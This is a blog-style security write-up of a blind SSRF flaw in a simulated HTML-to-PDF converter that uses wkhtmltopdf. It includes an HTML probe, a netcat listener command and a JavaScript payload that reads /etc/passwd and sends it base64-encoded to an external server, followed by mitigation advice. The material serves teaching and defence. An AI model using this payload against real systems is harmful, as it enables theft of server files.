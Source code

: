 ```yaml
---
title: "Exploring Blind SSRF Vulnerabilities in HTML to PDF Conversion Applications"
date: 2023-04-23 19:08:00
categories: [ssrf-vulnerabilies]
tags: [ssrf]
---
```


## Overview

This post delves into a case study of a blind Server-Side Request Forgery (SSRF) vulnerability within a fictitious application designed for converting HTML documents to PDFs. The application, which is a simulated target in a controlled environment, highlights the subtlety and potential impact of SSRF vulnerabilities, especially when they do not provide direct feedback or error messages.

## Testing Environment and Setup

The target application listens on port 8080 and accepts HTML files for processing into PDF documents. Initial observations indicated that the server's response was identical regardless of the HTML content provided, suggesting no visible data processing errors or SSRF indications through the front-end.

## Conducting Blind SSRF Tests

To test for blind SSRF, we employed an external server setup to capture any outbound requests from the application. The test involved submitting an HTML file containing a reference to an image hosted on our external server:

    <!DOCTYPE html>
    <html>
    <body>
        <h1>Hello World!</h1>
        <img src="http://<EXTERNAL SERVICE IP>:9090/test-image">
    </body>
    </html>


## Simplifying SSRF Blind Testing with Netcat

For our testing purposes, we employ a simple Netcat listener running on a virtual machine (VM), set to listen on port 9090. This setup allows us to capture any incoming requests and observe the web application's external interactions, which are pivotal in identifying and exploiting SSRF vulnerabilities.

### Setting Up the Netcat Listener

Here's the command to set up the Netcat listener, crucial for our SSRF testing:

  
    sudo nc -nlvp 9090
   

This command configures Netcat to listen on all interfaces at port 9090, ready to log any incoming requests.

### Observations After Submitting the HTML File

Upon submitting an HTML file containing external resource references, the application attempts to fetch these resources. This behavior confirms the existence of an SSRF vulnerability as it shows the application making unauthorized external network calls based on HTML content.

## JavaScript Exploitation and Data Exfiltration

Further exploration reveals that the application's PDF conversion tool, wkhtmltopdf, supports JavaScript execution within HTML files. We exploit this feature to perform data exfiltration as demonstrated below:

    
    <html>
    <body>
        <script>
        var xhr = new XMLHttpRequest();
        xhr.open("GET", "file:///etc/passwd", true);
        xhr.onreadystatechange = function () {
            if (xhr.readyState === 4 && xhr.status === 200) {
                // Encode the file contents in base64
                var b64content = btoa(xhr.responseText);
                // Send the encoded data to our external server
                var exfil = new XMLHttpRequest();
                exfil.open("GET", "http://<EXTERNAL SERVICE IP>:9090/exfil?data=" + b64content, true);
                exfil.send();
            }
        };
        xhr.send();
        </script>
    </body>
    </html>
    

This script reads the local `/etc/passwd` file and sends its Base64-encoded contents to our Netcat listener, showcasing a direct method of exploiting the SSRF vulnerability to extract sensitive information.

## Mitigation Strategies

To mitigate blind SSRF vulnerabilities effectively, it is crucial to:

- **Validate and sanitize all incoming data**, especially URLs and file paths, to prevent external resource references.
- **Implement strict allowlists** for outbound connections and protocols that the server is permitted to access.
- **Use secure programming practices** to disable unnecessary HTTP features that could be exploited via SSRF.
- **Regularly update and patch** third-party libraries and tools used for processing user-supplied content.

## Conclusion

Blind SSRF poses significant security risks, especially in applications that process external inputs to interact with internal or external resources. Understanding and implementing robust mitigation strategies are vital for securing web applications against these potential attacks and data breaches.